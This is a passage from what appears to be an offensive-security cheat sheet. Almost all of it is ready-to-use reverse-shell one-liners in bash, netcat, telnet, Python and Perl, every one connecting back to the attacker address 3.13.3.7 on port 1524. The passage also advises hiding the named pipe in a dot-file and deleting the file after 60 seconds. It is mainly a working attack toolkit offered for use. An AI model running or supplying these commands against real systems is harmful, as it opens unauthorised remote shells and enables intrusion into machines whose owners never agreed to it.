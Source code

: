 On the remote system, this command will connect back to your system (IP = 3.13.3.7, Port 1524) and give you a shell prompt:
```
$ setsid bash -i &>/dev/tcp/3.13.3.7/1524 0>&1 &
```

<a id="rswob-anchor"></a>
**5.i.b. Reverse shell without Bash**

Especially embedded systems do not always have Bash and the */dev/tcp/* trick will not work. There are many other ways (Python, PHP, Perl, ..). Our favorite is to upload netcat and use netcat or telnet:

On the remote system:

```
$ nc -e /bin/bash -vn 3.13.3.7 1524
```

Variant if *'-e'* is not supported:
```
$ mkfifo /tmp/.io
$ sh -i 2>&1 </tmp/.io | nc -vn 3.13.3.7 1524 >/tmp/.io
```

Telnet variant:
```
$ mkfifo /tmp/.io
$ sh -i 2>&1 </tmp/.io | telnet 3.13.3.7 1524 >/tmp/.io
```

Telnet variant when mkfifo is not supported (Ulg!):
```
$ (touch /dev/shm/.fio; sleep 60; rm -f /dev/shm/.fio) &
$ tail -f /dev/shm/.fio | sh -i 2>&1 | telnet 3.13.3.7 1524 >/dev/shm/.fio
```
Note: Use */tmp/.fio* if */dev/shm* is not available.
Note: This trick logs your commands to a file. The file will be *unlinked* from the fs after 60 seconds but remains useable as a 'make shift pipe' as long as the reverse tunnel is started within 60 seconds.

<a id="rswpy-anchor"></a>
**5.i.c. Reverse shell with Python**
```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("3.13.3.7",1524));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<a id="rswpl-anchor"></a>
**5.i.d. Reverse shell with Perl**

```
# method 1
$ perl -e 'use Socket;$i="3.13.3.7";$p=1524;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
# method 2
$ perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"3.13.3.7:1524");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
<a id="rswphp-anchor"></a>
**5.i.e. Reverse shell with PHP**
